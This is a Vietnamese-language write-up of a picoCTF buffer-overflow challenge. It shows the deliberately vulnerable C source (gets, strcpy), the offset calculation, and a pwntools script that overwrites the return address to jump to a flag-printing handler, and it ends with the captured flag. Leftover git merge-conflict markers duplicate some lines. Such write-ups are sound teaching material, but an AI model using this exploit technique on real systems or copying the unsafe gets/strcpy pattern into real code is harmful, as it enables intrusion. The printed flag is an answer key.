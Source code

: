 **#1. Tìm lỗi**

   Ta có file source như sau:

<<<<<<< HEAD
```
#include <stdio.h>
#include <stdlib.h>
=======
`#include <stdio.h>`
`#include <stdlib.h>`
>>>>>>> 3fd571557d0a49f2f3540db916aab448fc16a193
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

   ![checksec.png](photo/checksec.png)

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi

   ![file.png](photo/file.png)

   Ta thấy là file 32bit

   ![buf1.png](photo/buf1.png)

   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120

   ![function_flag.png](photo/function_flag.png)

   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   ![flag.png](photo/flag.png)
<<<<<<< HEAD

   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
=======
   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
>>>>>>> 3fd571557d0a49f2f3540db916aab448fc16a193
